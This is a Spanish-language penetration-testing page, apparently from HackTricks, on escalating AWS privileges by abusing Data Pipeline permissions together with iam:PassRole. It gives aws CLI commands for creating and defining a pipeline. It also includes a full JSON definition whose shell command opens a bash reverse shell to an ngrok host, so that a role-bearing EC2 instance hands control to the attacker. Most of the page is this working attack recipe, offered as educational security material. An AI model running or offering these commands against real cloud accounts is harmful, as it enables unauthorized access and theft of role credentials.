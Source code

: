 # AWS - Datapipeline Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## datapipeline

Para más información sobre datapipeline consulta:

{{#ref}}
../../aws-services/aws-datapipeline-codepipeline-codebuild-and-codecommit.md
{{#endref}}

### `iam:PassRole`, `datapipeline:CreatePipeline`, `datapipeline:PutPipelineDefinition`, `datapipeline:ActivatePipeline`

Los usuarios con estos **permisos pueden escalar privilegios creando un Data Pipeline** para ejecutar comandos arbitrarios usando los **permisos del role asignado:**
```bash
aws datapipeline create-pipeline --name my_pipeline --unique-id unique_string
```
Después de la creación del pipeline, el atacante actualiza su definición para dictar acciones específicas o la creación de recursos:
```json
{
"objects": [
{
"id": "CreateDirectory",
"type": "ShellCommandActivity",
"command": "bash -c 'bash -i >& /dev/tcp/8.tcp.ngrok.io/13605 0>&1'",
"runsOn": { "ref": "instance" }
},
{
"id": "Default",
"scheduleType": "ondemand",
"failureAndRerunMode": "CASCADE",
"name": "Default",
"role": "assumable_datapipeline",
"resourceRole": "assumable_datapipeline"
},
{
"id": "instance",
"name": "instance",
"type": "Ec2Resource",
"actionOnTaskFailure": "terminate",
"actionOnResourceFailure": "retryAll",
"maximumRetries": "1",
"instanceType": "t2.micro",
"securityGroups": ["default"],
"role": "assumable_datapipeline",
"resourceRole": "assumable_ec2_profile_instance"
}
]
}
```
> [!NOTE]
> Tenga en cuenta que el **role** en **líneas 14, 15 y 27** debe ser un role **assumable by datapipeline.amazonaws.com** y el role en **línea 28** debe ser un **role assumable by ec2.amazonaws.com with a EC2 profile instance**.
>
> Además, la EC2 instance solo tendrá acceso al role assumable by the EC2 instance (por lo que solo podrás robar ese).
```bash
aws datapipeline put-pipeline-definition --pipeline-id <pipeline-id> \
--pipeline-definition file:///pipeline/definition.json
```
El **archivo de definición del pipeline, elaborado por el atacante, incluye directivas para ejecutar comandos** o crear recursos a través de la API de AWS, aprovechando los permisos del role de Data Pipeline para potencialmente obtener privilegios adicionales.

**Impacto potencial:** Privesc directo al ec2 service role especificado.

## Referencias

- [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{{#include ../../../../banners/hacktricks-training.md}}
